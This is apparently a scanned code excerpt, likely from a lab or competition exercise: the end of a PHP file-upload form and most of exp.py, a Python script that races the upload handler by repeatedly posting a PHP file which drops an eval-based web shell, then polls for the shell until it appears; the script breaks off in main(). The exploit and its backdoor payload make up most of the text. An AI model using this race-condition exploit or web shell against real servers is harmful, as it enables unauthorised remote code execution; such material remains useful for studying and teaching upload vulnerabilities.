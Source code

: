 ```php
}
?>


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="file"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

exp.py

```python
import os
import requests
import threading
import random
import string

exp_name = ''.join(random.sample(string.ascii_letters + string.digits,10))
shell_name = ''.join(random.sample(string.ascii_letters + string.digits,10))

# 按照自己的环境修改url
upload_url = 'http://127.0.0.1/competionupload.php'
exp_url = 'http://127.0.0.1/uploads/{}.php'.format(exp_name)
shell_url = 'http://127.0.0.1/uploads/{}.php'.format(shell_name)

exp_content = ('<?php fputs(fopen("{}.php", "w"), '
               '\'<?php @eval($_POST["qqq"]) ?>\'); ?>')
exp_content = exp_content.format(shell_name)

def upload():
    while True:
        print('[+] upload file...')
        data = {'submit':'上传'}
        files = {"file":('{}.php'.format(exp_name),exp_content)}
        resp = requests.post(upload_url,files=files,data=data)

def get():
    while True:
        print('[+] get shell file...')
        requests.get(exp_url)
        resp = requests.get(shell_url)
        if resp.status_code == 200:
            print('[*] create {}.php success'.format(shell_name))
            os._exit(0)

def main():
    threads = []

    try:
```